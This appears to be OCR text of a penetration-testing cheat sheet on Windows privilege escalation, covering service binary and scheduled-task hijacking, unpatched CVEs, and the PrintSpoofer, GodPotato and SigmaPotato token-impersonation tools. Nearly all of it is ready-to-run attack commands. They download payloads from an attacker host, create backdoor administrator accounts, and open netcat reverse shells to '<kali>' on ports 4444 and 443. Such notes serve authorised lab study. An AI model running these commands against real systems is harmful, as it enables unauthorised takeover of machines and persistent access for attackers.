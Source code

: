       `iwr -uri http://<KALI>/adduser.exe -Outfile Current.exe`
      `copy .\Current.exe 'C:\Program Files\Enterprise Apps\Current.exe'`
    - Trigger execution  
      `Start-Service <service>`
    - check creation of users  
      `net user` `net localgroup administrators`
    - OR PowerUp tool `Write-ServiceBinary -Name 'GammaService' -Path "C:\Program Files\Enterprise Apps\Current.exe"`  
- Scheduled Tasks
  - List all scheduled tasks  
    `schtasks /query /fo LIST /v`  
  - Check permission  
    `icacls C:\Users\steve\Pictures\BackendCacheCleanup.exe`  
  - Repalce the schedule task  
    ```
    iwr -Uri http://<KALI>/adduser.exe -Outfile BackendCacheCleanup.exe
    move .\BackendCacheCleanup.exe .\Pictures\
    ```
- Exploits for unpatched
  - check current privilege
    `whoami /priv`  
  - enumerate windows version and security patches
    `Get-CimInstance -Class win32_quickfixengineering | Where-Object { $_.Description -eq "Security Update" }`
  - search elevation of privileges CVE and download to target
  - Execute the .\CVE-xxx-xxxx.exe and priviledge escalate
- :octocat: **Privilege Escalation with "SeImpersonatePrivilege" or "SeAssignPrimaryTokenPrivilege" right**
  `whoami /priv` 
  - 🖥️ **PrintSpoofer.exe**  
    `.\PrintSpoofer64.exe -i -c powershell.exe`  
  - 🖥️ **GodPotato.exe**
    ```
    .\GodPotato-NET4 -cmd "net user godAdmin password123! /add"
    .\GodPotato-NET4 -cmd "net localgroup Administrators godAdmin /add"

    iwr -uri http://<kali>/nc64.exe -OutFile 'nc64.exe'
    .\GodPotato-NET4.exe -cmd "nc64.exe -t -e C:\Windows\System32\cmd.exe <kali> 4444"
    ```
  - 🖥️ **SigmaPotato.exe**  
    ```
    .\SigmaPotato "net user sigmaAdmin lab /add
    .\SigmaPotato "net localgroup Administrators sigmaAdmin /add"
    ```
  
| Exploit       | Works On                           | Privilege Required              | Command Example                                                                 |
|---------------|------------------------------------|---------------------------------|---------------------------------------------------------------------------------|
| **PrintSpoofer** (2020) | Win10 1903+, Server 2019 | `SeImpersonatePrivilege`        | `.\printspoofer.exe -i -c powershell.exe`                                                |
| **GodPotato** (2021)    | Win10, Server 2019+      | `SeImpersonatePrivilege`        | `.\GodPotato-NET4.exe -cmd "nc64.exe -t -e C:\Windows\System32\cmd.exe <kali> 443`"                                                 |
| **SigmaPotato** (2022+) | Win10/11, Server 2016–2022 | `SeImpersonatePrivilege`        | `.\SigmaPotato.exe --revshell <kali ip> 443`                                               |
